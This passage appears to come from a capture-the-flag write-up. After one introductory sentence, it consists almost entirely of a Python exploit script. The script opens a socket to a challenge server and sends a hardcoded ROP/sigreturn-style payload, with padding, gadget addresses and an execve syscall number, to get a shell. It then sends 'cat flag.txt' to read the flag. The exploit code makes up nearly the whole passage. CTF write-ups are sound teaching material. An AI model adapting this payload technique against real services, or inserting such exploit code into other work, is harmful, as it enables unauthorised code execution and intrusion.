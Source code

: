 Let’s copy the data and send it to netcat to see if it works.

```py
import socket
 
class Netcat:
    def __init__(self, ip, port):
        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)

    def write(self, data):
        self.socket.send(data)

    def close(self):
        self.socket.close()

rop = "\x61\x61\x61\x61\x62\x61\x61\x61\x63\x61\x61\x61\x64\x61\x61\x61" \
"\x65\x61\x61\x61\x66\x61\x61\x61\x67\x61\x61\x61\x68\x61\x61\x61" \
"\x69\x61\x61\x61\x6a\x61\x61\x61\x6b\x61\x61\x61\x6c\x61\x61\x61" \
"\x6d\x61\x61\x61\x6e\x61\x61\x61\x6f\x61\x61\x61\x70\x61\x61\x61" \
"\x71\x61\x61\x61\x72\x61\x61\x61\x73\x61\x61\x61\x74\x61\x61\x61" \
"\x75\x61\x61\x61\x76\x61\x61\x61\x77\x61\x61\x61\x78\x61\x61\x61" \
"\x79\x61\x61\x61\x7a\x61\x61\x62\x62\x61\x61\x62\x63\x61\x61\x62" \
"\x64\x61\x61\x62\x65\x61\x61\x62\x66\x61\x61\x62\x67\x61\x61\x62" \
"\x68\x61\x61\x62\x69\x61\x61\x62\x55\x11\x40\x00\x00\x00\x00\x00" \
"\x0f\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x04\x20\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x3b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x33\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x0a"


nc = Netcat("misc.chall.pwnoh.io", 13371)

print(nc.read())
nc.write(rop)
nc.write("cat flag.txt\n")
print(nc.read())
```
